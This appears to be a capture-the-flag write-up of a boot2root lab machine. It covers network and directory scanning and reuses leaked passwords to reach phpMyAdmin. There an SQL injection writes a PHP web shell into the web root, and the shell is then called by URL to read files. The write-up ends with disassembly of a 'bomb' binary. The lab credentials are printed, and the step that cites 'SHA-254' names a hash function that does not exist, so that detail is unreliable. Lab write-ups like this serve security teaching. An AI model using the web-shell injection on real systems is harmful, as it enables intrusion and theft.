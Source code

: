 Using ifconfg, we find our subnet and netmask.
```
sudo nmap -sn 10.0.2.0/24
```

Find IP address of our target device - 10.0.2.4
```
sudo nmap -Pn -p- -A -T4 -oN scan.txt $tar
```

Find all directories on the site
```
dirb https://$tar                             
```

10.0.2.4/forum
We find a post on forum with unscucceful login attempts and password !q\]Ej?*5K5cy*AJ
- this gives us access to the forum of the user and we get an email laurie@borntosec.net

10.0.2.4/webmail
Logging in to the webmail using the same password we found credentials for mysql database root:Fg-'kKXBj87E:aJ$
Log in on 10.0.2.4/phpmyadmin
SQL injection
- SELECT 1, '<
- ?php system($_
- GET["cmd"]); ?>' INTO OUTFILE '/var/www/forum/templates_c/cmd.php' -- 

https://10.0.2.4/forum/templates_c/cmd.php?cmd=cd%20/home/LOOKATME;cat%20password
Looking around we find ftp credentials lmezard:G!@M6f4Eatau{sF"

We get fake list of fake pcap files, assembling the code contained together, we get a password.
Iheartpwnage
After encoding it with SHA-254, we can connect via SSH.

We find a bomb executable with multiple "levels" to get through.
# <u>list functions</u>
``` shell
[...]
0x08048b20  phase_1
0x08048b48  phase_2
0x08048b98  phase_3
0x08048ca0  func4
0x08048ce0  phase_4
0x08048d2c  phase_5
0x08048d98  phase_6
[...]
```

# <u>phase1</u>
``` shell
Dump of assembler code for function phase_1:
   0x08048b20 <+0>:	push   %ebp
   0x08048b21 <+1>:	mov    %esp,%ebp
   0x08048b23 <+3>:	sub    $0x8,%esp
   0x08048b26 <+6>:	mov    0x8(%ebp),%eax
   0x08048b29 <+9>:	add    $0xfffffff8,%esp
   0x08048b2c <+12>:	push   $0x80497c0
   0x08048b31 <+17>:	push   %eax
   0x08048b32 <+18>:	call   0x8049030 <strings_not_equal>
   0x08048b37 <+23>:	add    $0x10,%esp
   0x08048b3a <+26>:	test   %eax,%eax
   0x08048b3c <+28>:	je     0x8048b43 <phase_1+35>
   0x08048b3e <+30>:	call   0x80494fc <explode_bomb>
   0x08048b43 <+35>:	mov    %ebp,%esp
   0x08048b45 <+37>:	pop    %ebp
```